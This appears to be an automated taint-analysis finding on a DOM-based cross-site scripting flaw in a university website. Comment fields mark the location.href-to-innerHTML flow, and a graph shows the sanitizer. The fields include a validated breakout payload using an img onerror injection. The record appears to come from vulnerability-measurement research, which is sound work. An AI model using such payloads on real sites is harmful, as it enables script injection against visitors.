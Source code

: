 // Finding: bcc33dae-6205-4fd0-b85b-4218be16721f
// Finding.url: https://www.example44.com/studieninteressierte/studieninteressierte-aus-dem-ausland/austauschstudierende/??no_cache=1"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('f3feefaf32c241b3bc1d08bc0eab78de')><!--/*
// Finding.parentloc: https://www.example44.com/studieninteressierte/studieninteressierte-aus-dem-ausland/austauschstudierende/??no_cache=1"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('f3feefaf32c241b3bc1d08bc0eab78de')><!--/*
// Finding.domain: www.example44.com
// Finding.base_domain: example44.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: 
// Sanitizer.location: https://www.example44.com/typo3conf/ext/uos_core/Resources/Public/JavaScripts/docbehaviour.js?1614795201 - <anonymous>:1:134
// Finding.begin: 110
// Finding.end: 330
// Finding.original_uuid: b8f55ad0-f776-43db-a8ab-34f29f23169d
// Finding.TwentyFiveMillionFlowsId: -873949755
// Finding.script: https://www.example44.com/typo3conf/ext/uos_core/Resources/Public/JavaScripts/jquery.min.js?1603457983
// Finding.line: 2
// Exploit.uuid: f3feefaf-32c2-41b3-bc1d-08bc0eab78de
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: ?no_cache=1"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: ?no_cache=1"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 30
// Exploit.end_taint_url: 120
// Exploit.replace_begin_url: 110
// Exploit.replace_end_url: 120
// Exploit.replace_begin_param: 92
// Exploit.replace_end_param: 103
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: true
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 910405060
// DepGraph.sanitizer_hash: 973159822
// Part of the URL ('www.example44.com') found in left hand side of replace 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="Lit: www.example44.com"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="str_replace_once"];
n6 [shape=box, label="Lit: https:"];
n7 [shape=box, label="Lit: "];
n8 [shape=box, label="Var: x"];
n9 [shape=ellipse, label="str_replace_once"];
n10 [shape=box, label="RegExp: /\//"];
n11 [shape=box, label="Lit: /"];
n12 [shape=box, label="Var: x"];
n13 [shape=box, label="Var: x"];
n14 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n12 -> n5;
n9 -> n10;
n9 -> n11;
n9 -> n12;
n13 -> n9;
n14 -> n13;
}